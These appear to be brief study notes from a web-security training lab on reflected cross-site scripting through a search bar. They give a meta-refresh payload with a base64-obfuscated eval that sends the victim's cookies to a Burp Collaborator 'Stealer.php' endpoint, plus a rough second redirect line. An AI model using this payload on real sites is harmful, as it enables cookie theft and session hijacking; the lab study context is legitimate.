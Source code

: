 # Cross-site scripting (XSS)


if we found a xss attack at the search bar we have the exploit server:
- at the exploit server we can use this piece of code <meta> for redirect the victim to our malicius code

```
<meta http-equiv="refresh" content='0; URL=https://0a6e002b0401a0fcc0fa2e05001e0054.web-security-academy.net/?SearchTerm=aa","fd8xsw5l":eval(atob("ZG9jdW1lbnQubG9jYXRpb24gPSAneTY1OHcyZWtvYjRidXkxYjZuOWZ6ZnJyNmljODB4LmJ1cnBjb2xsYWJvcmF0b3IubmV0L1N0ZWFsZXIucGhwP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZQ=="))}//' />




<meta http-equiv="refresh" content='0; URL=url/?cookies=document.cookiesxaxa' />
```

nw7fl9oiqg11oh089tjm


